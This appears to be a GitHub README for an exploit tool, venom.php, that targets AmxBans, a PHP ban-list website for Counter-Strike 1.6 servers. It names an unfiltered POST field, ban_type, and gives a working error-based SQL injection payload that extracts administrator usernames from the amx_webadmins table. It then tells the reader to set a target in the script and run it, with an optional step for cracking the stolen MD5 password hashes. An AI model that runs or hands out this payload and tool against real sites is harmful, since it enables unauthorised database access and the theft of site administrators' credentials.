


# Short info
<p> Amxbans is an website for the Counter-Strike 1.6 banlists </p>
<p> It works like -> Admin gives you ban, and all information about ban are appears on the website </p>

 

# Explanation


<p> Look on the image where code block section are selected with red rectangle.
There are defined bunch of variables , and all these variables are filtered with the sql_safe function </p>
<br>
<p> SQL_SAFE source</p>
include/functions.inc.php LINE 80

```
function sql_safe($value) {
	if (get_magic_quotes_gpc()) $value=stripslashes_recursive($value); //function in config.inc.php
	return mysql_real_escape_string($value);
} 
```
- [1] get_magic_quotes_gpc() = Checks configuration in php.ini,  if this feature
is avaliable then it wiil escape all  single-quote, double quote, backslash and NULs 
- [2] stripslashes_recursive($value) = All data which will passed in $value will be filtered and slashes will be stripped.
- [3] sql_safe function will return with mysql_real_escape_string which is the mysql function used against sql injection attacks.

# Vulnerability
<p>As you see all the requests are fileter except one which is the </p>

```
$type = $_POST["ban_type"];
```
<p>so that means that we can pass whatever we want in the $_POST request and it will executed in the database</p>
<p>For example into the $_POST["ban_type"] we can pass sql query like below</p>

```
"'+(1 AND extractvalue(rand(),concat(0x3a,(SELECT  username  FROM `amx_webadmins` WHERE ID > 0  LIMIT 2,1))))+'"
```
<p>and it will return Username from the amx_webadmins</p>


# Usage
- [1] Open venom.php and set the target on line 40
- Experimental = You can uncomment ```restore_hash($password);``` on the 67 line
then import code from the db.sql and your wordlist into the mysql server.
It  will give you posibility to use your own password cracking wordlist for md5 hash from the your server without using any other online platforms.
```
php venom.php
```
